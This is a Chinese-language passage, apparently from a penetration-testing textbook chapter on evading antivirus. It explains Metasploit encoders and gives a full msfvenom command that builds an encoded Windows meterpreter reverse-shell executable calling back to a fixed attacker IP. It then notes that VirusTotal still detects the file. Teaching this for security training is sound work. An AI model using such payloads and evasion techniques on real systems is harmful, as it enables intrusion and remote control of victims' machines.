 很明显，如果我们想要绕过防病毒解决方案，我们需要更加努力地隐藏。除了将有效载荷直接放入可执行文件中，我们还可以尝试一些其他有用的方法来隐藏我们的 Metasploit 有效载荷。

### 编码

编码器是一些工具，可以帮助你避免在漏洞利用中出现会破坏漏洞利用的字符。（当我们在第十六章到第十九章编写自己的漏洞利用时，你会了解更多这些要求。）在撰写本文时，Metasploit 支持 32 种编码器。编码器会破坏有效载荷并添加解码指令，确保在执行之前解码有效载荷。普遍的误解是，Metasploit 的编码器是为了帮助绕过杀毒软件而设计的。某些 Metasploit 编码器会生成多态代码或变异代码，确保每次生成的编码有效载荷看起来都不同。这个过程使得杀毒软件厂商更难为有效载荷创建签名，但正如我们将看到的，它不足以绕过大多数杀毒解决方案。

要列出 Msfvenom 中所有可用的编码器，请使用**`-l encoders`**选项，正如示例 12-2 所示。

示例 12-2：Msfvenom 编码器

```
root@kali:~# **msfvenom -l encoders**
Framework Encoders
==================

    Name                          Rank       Description
    ----                          ----       -----------
    cmd/generic_sh                good       Generic Shell Variable Substitution Command Encoder
    cmd/ifs                       low        Generic ${IFS} Substitution Command Encoder
--*snip*—
  ❶x86/shikata_ga_nai             excellent  Polymorphic XOR Additive Feedback Encoder
--*snip*--
```

唯一一个排名优秀的编码器是* x86/shikata_ga_nai * ❶。*Shikata Ga Nai*是日语，意思是“无能为力”。编码器的排名基于输出的熵值。使用*shikata_ga_nai*时，即使解码器的存根也是多态的。这个编码器如何工作的细节超出了本书的范围，但可以简要地说，它会将有效载荷破坏到难以识别的程度。

告诉 Msfvenom 使用*shikata_ga_nai*编码器，并使用`-e`标志，正如示例 12-3 所示。此外，为了进一步混淆，我们将通过多个编码器运行有效载荷，每一轮都使用`-i`标志对前一轮的输出进行编码，并指定编码轮数（此例为 10 轮）。

示例 12-3：使用 Msfvenom 创建编码的可执行文件

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=2345 -e x86/shikata_ga_nai -i 10 -f exe > meterpreterencoded.exe**
[*] x86/shikata_ga_nai succeeded with size 317 (iteration=1)
[*] x86/shikata_ga_nai succeeded with size 344 (iteration=2)
--*snip*--
[*] x86/shikata_ga_nai succeeded with size 533 (iteration=9)
[*] x86/shikata_ga_nai succeeded with size 560 (iteration=10)
```

现在，将生成的二进制文件上传到 VirusTotal。正如你在图 12-6 中看到的，35 款测试过的杀毒软件检测到了我们的有效载荷，即使它已经经过编码。与我们将有效载荷嵌入到预构建可执行文件中的检测率相比，这个检测率更高。换句话说，*shikata_ga_nai*单独使用并不能解决问题。

![VirusTotal 对编码二进制文件的检测结果](img/httpatomoreillycomsourcenostarchimages2030414.png.jpg)图 12-6：VirusTotal 对编码二进制文件的检测结果


 [Web]: https://www.veil-framework.com/ | [Twitter]: @VeilFramework